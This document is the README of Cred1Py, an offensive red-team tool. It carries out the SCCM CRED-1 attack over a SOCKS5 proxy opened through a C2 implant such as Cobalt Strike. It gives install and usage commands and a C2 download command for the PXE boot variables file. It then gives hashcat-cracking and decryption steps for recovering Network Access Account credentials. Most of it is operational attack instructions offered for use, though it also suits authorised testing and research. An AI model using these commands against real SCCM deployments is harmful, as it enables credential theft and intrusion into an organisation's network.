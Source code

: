 ## Overview

This is a tool used to exploit CRED-1 over a SOCKS5 connection (with UDP support).

## Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

## Usage

To use Cred1Py:

Start a SOCKS5 proxy via your C2, for example, CS uses the command:

```
> socks 9090 socks5 enableNoAuth a b
```

Then we can invoke Cred1py with:

```
python ./main.py <target> <src_ip> <socks_host> <socks_port>
```

Where:

* Target - The SCCM PXE server IP
* SRC_IP - The IP address of the host we are running the implant on
* SOCKS_HOST - The IP of the team server running SOCKS5
* SOCKS_PORT - The SOCKS5 port

Note: Due to the way that SOCKS5 works, the C2 server will need to be accessible on all ports to Cred1py as a second ephemeral port is opened as part of the relaying of UDP traffic. Easiest method is usually to just run Cred1py on the C2 server and target `localhost`.. but you do you!

## How CRED-1 Attack Works

CRED-1 can be broken down into the following steps:

1. Send a DHCP Request for the PXE image over UDP 4011
2. SCCM responds with image path and crypto keys to decrypt the referenced variables file

At this stage, two files are downloaded over TFTP, for example:

1. `2024.09.03.23.35.22.0001.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.var`
2. `2024.09.03.23.35.22.07.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.bcd`

Next CRED-1 takes the crypto keys returned in the DHCP response, and takes one of two paths depending on the content:

1. If the crypto key is provided, password based encryption is disabled, and therefore a key derivation function is run to produce an AES key to decrypt the variables file

OR

2. If no crypto key is provided, password based encryption is enabled, and a HashCat ouotput is produced from the variables file to allow us to recover the encryption key

Once the key has been recovered (or provided), the variable file can be decrypted and the contents can be used to retrieve Network Access Account username/password.

Further information on this attack can be found in [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md).

## How Cred1Py Works

Cred1Py attempts to perform this flow over a SOCKS5 connection, due to UDP support being provided as part of the SOCKS5 specification and included in products such as Cobalt Strike.

There are a few differences to the Cred1py implementation to tools like PxeThiefy as SOCKS5 limits our ability to retrieve TFTP files (we can't determine the source port used during the data transfer and therefore can't download more than a handful of bytes).

This means that the requirements for Cred1Py are:

1. An implant executing with SOCKS5 enabled
2. Ability to make a SMB connection to a distribution server (this replaces the TFTP component of PxeThiefy)

Once the requirements are met, Cred1Py:

1. Sends a DHCP Request for the PXE image and crypto key
2. Retrieves the crypto keying material
3. Downloads the first 512 bytes of the variables file (possible as this is sent by TFTP server without establishing a TID which needs source port)
4. Outputs either a crypto key, or a hashcat hash, as well as the path to the boot variable file returned via DHCP

At this point, we will need to use our C2 to download the boot variable file, for example in Cobalt Strike we can use:

```
download \\sccmserver.lab.local\REMINST\SMSTemp\BootFileName.boot.var
```

Now if you have a password to crack.. crack it and then pass it as an argument to `pxethiefy.py`:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var PASSWORD_HERE
```

However, if no PXE password is set, you'll be given the crypto key. This will need to be added to `pxethiefy.py`. Easiest way is just to mod `decrypt_media_file` in `pxethiefy.py` to use the binary key, for example:

`decrypt_media_file(args.mediafile, b'\x41\x42\x43\x44.......'):`

We then use PxeThiefy.py to decrypt the `boot.var` file with our recovered key by just invoking with any old password:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var USE_THE_SOURCE_LUKE
```

## Credits

Christopher Panayi, the original researcher of CRED-1 and the PxeThief OG Tool - https://github.com/MWR-CyberSec/PXEThief
Carsten Sandker and his awesome Pxethiefy.py Tool which this is based on - https://github.com/csandker/pxethiefy


